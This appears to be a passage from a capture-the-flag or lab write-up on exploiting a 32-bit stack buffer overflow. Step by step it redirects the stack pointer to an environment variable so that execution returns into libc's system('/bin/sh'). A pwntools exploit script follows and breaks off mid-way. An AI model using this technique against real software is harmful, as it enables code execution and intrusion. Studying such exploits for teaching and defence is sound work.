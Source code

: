 **Step 1. Finding the Offset.** By sending a long cyclic string, we can use
information from the resulting core dump to find the offset from the start of
the vulnerable buffer to the saved stack pointer. In particular, we want to
examine the value in register `ecx` as that register is used in `*main+41` to
set the stack pointer. *Potential gotcha:* Note that if you used the fault
address given in the core you will get the wrong offset due to subtraction of
`0x4` from `ecx`.  


**Step 2. Finding useful addresses.** We can use the corefile directly to find
the address of the `WIN` environment variable. To find the address of `system`
and the `/bin/sh` string in libc, we are going to get the offsets directly from
the libc shared object file and add that to the runtime address of libc given
by corefile.   Note that we could pass an arbitrary string to `system` by
placing that string on the stack in our vulnerabl***E*** buffer or throwing it in an
environment variable; however, the "/bin/sh" string already exists in the libc
code and its address tends to be more predictable than stack addresses.

**Step 3. Setting up the environment variable.** It is not enough to manipulate
the stack pointer to point at a location we control. We also need to make sure
that the new top of the stack is setup how system function is expecting. In
other wo***R***ds, we want to setup the appropriate arguments in our environment
variable. The notes in the previous section explain what this setup should look
like.  

**Step 4. Manipulate the stack pointer.** Finally, we want to modify the saved
stack pointer location so that it will instead point to our environment
variable. This manipulation will allow us to control the return address used by
the  `ret` instruction. We want our environment variable `WIN` to become the
new top of the stack so that the new return address will be `system`. 

Putting it all together we have our full attack:

```python
# file: exploit.py

import struct
import sys

from pwn import *

context.clear(arch='i386')

p = process('./vuln', env={'WIN':'Put ROP here'})

p.sendline(cyclic(128))
p.wait()

assert pack(p.corefile.ecx) in cyclic(128)

offset = cyclic_find(pack(p.corefile.ecx))

print "Offset: ", offset 
print "WIN addr: ", hex(p.corefile.env['WIN'])

libc = ELF(p.corefile.libc.path)

system_addr = libc.symbols.system + p.corefile.libc.start  
dummy_ret = 'aaaa'
binsh_str_addr = p.corefile.libc.find('/bin/sh') 

exploit_str = flat({offset:pack(p.corefile.env['WIN']+4)})
   
env_str = flat( 
    pack(system_addr), 
    dummy_ret, 
```